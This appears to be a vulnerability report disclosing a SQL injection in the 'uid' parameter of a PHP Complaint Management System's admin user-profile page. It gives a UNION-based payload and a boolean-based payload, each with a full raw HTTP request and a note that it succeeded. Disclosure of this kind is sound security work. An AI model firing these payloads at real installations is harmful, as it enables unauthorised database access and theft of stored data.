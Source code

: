 BUG_Author: 808bass

Vulnerability File: /Complaint Management System/admin/userprofile.php

GET parameter 'uid' exists SQL injection vulnerability

Payload1:uid=1' union all select null,null,null,null,concat(0x414243,0x515253,0x616263),null,null,null,null,null,null,null,null-- -

```
GET /Complaint%20Management%20System/admin/userprofile.php?uid=1%27%20union%20all%20select%20null,null,null,null,concat(0x414243,0x515253,0x616263),null,null,null,null,null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=4amosvnpbfikcpl9np95smjnth
Connection: close
```

union query success

![image](https://github.com/winkle175/bug_report/blob/main/sql1.png)

Payload2:uid=1' and 666=666 and 'p'='p 

```
GET /Complaint%20Management%20System/admin/userprofile.php?uid=1%27%20and%20666=666%20and%20%27p%27=%27p HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=4amosvnpbfikcpl9np95smjnth
Connection: close
```

The sql statement is executed correctly

![image](https://github.com/winkle175/bug_report/blob/main/sql2.png)
